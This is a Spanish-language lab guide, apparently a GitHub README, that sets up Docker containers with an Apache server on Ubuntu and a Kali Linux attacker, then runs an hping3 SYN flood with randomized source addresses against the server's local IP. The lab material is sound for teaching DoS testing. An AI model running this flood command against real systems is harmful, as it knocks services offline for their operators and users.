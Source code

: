 # 🚀 Configuración de Contenedores para Pruebas de Seguridad

Este documento describe cómo configurar un entorno de prueba con **Ubuntu** y **Kali Linux** en contenedores Docker para evaluar ataques de Denial of Service (DoS) sobre un servidor Apache.

---

## 🏗️ Configuración del Servidor Apache en Ubuntu

En una terminal con Docker, ejecuta los siguientes comandos para desplegar y configurar un servidor Apache dentro de un contenedor **Ubuntu**.

### 📌 1. Crear un Contenedor de Ubuntu
```bash
docker run -dit --name servidor-apache-prueba -p 80:80 ubuntu
```
🖼 **Evidencia:** Captura de la creación del contenedor en la terminal.

### 📌 2. Ejecutar la Instancia de Ubuntu
```bash
docker exec -it servidor-apache-prueba bash
```

### 📌 3. Actualizar el Sistema Ubuntu
```bash
apt update -y && apt upgrade -y
```

### 📌 4. Instalar el Servidor Apache
```bash
apt install -y apache2
```

### 📌 5. Configurar el Mensaje de Bienvenida
```bash
echo "Hola, soy un servidor con Apache Server. Si ves este mensaje, el servidor está activo." > /var/www/html/index.html
```
🖼 **Evidencia:** Captura del archivo `index.html` con el mensaje de prueba.

### 📌 6. Iniciar el Servicio Apache
```bash
service apache2 start
```
🖼 **Evidencia:** Captura del estado del servicio con `service apache2 status`.

### 📌 7. Verificar la Página Web en el Navegador
En el navegador local, ingresa la siguiente URL:
```
http://localhost:80
```
🖼 **Evidencia:** Captura del navegador mostrando el mensaje de bienvenida.

---

## 🔥 Configuración de Kali Linux para Pruebas de Ataques DoS

En otra terminal, ejecuta los siguientes comandos para desplegar un contenedor con **Kali Linux** y preparar herramientas para pruebas de carga sobre el servidor Apache.

### 📌 1. Crear un Contenedor con Kali Linux
```bash
docker run -dit --name kali-testing kalilinux/kali-rolling
```
🖼 **Evidencia:** Captura de la creación del contenedor en la terminal.

### 📌 2. Ejecutar la Instancia de Kali Linux
```bash
docker exec -it kali-testing bash
```

### 📌 3. Actualizar el Sistema Kali
```bash
apt update -y && apt upgrade -y
```

### 📌 4. Instalar Herramientas de Pruebas de Carga (Apache Benchmark, Hping3, Slowloris)
```bash
apt install -y hping3 slowloris apache2-utils
```
🖼 **Evidencia:** Captura de la instalación de paquetes.

---

## 🚨 Iniciando el Ataque DoS al Servidor Apache

A continuación, se ejecutará un ataque de inundación TCP aleatoria contra la IP y el puerto 80 del servidor Apache.

### 📌 1. Identificar la IP del Contenedor Ubuntu
Desde la instancia de Ubuntu, ejecuta:
```bash
ip a
```
🖼 **Evidencia:** Captura de la IP del contenedor Ubuntu.

### 📌 2. Ejecutar Ataque de Inundación TCP con **Hping3**
```bash
hping3 -S --flood --rand-source -p 80 172.17.0.2
```
🖼 **Evidencia:** Captura de la ejecución del ataque y del consumo de recursos en el servidor.

---

## 🎯 Conclusión

Después de realizar las pruebas, se puede analizar el impacto de los ataques en el servidor Apache. Se recomienda monitorear el uso de CPU y memoria del contenedor Ubuntu para evaluar el nivel de afectación.

🖼 **Evidencia:** Captura del consumo de recursos antes y después del ataque.

⚠️ **Nota:** Este documento es únicamente con fines educativos. No se debe realizar ningún ataque fuera de un entorno controlado y autorizado.
